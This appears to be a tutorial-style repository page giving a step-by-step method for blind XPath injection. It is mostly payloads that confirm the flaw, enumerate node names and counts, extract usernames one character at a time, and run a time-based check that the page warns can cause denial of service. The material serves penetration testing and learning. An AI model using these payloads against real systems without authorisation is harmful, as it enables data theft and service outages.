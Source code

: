 If you have found a potentially blind XPath injection, then it can be confirmed following this methodology:

### Confirming the injection

First try to inject a payload that will result in a true statement:
```
invalid' or '1'='1
```
### Grabbing the Parent name
We can now try to exfiltrate the parent node's length with the following:
```
invalid' or string-length(name(/*[1]))=1 and '1'='1
```

Once we have confirmed the node length, we can try to grab the name:
```
invalid' or substring(name(/*[1]),1,1)='a' and '1'='1
```
### Determining modules under the parent
Once we have the parent node, we can attempt to determine modules under it. Use the following to determine the number of modules under the parent (/users/ is replaced with the parent name found)
```
invalid' or count(/users/*)=1 and '1'='1
```

Now that we know the length, we can try to determine the names of the child modules:
```
invalid' or substring(name(/user/*[1]),1,1)='a' and '1'='1
```
### Exfiltrating data
Once we've determined the names, we can try to data from the child nodes:
```
invalid' or string-length(/users/user[1]/username)=1 and '1'='1
````
### Time based approach
It's important to be careful with this payload, since large schema definitions can cause a DoS condition
```
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```
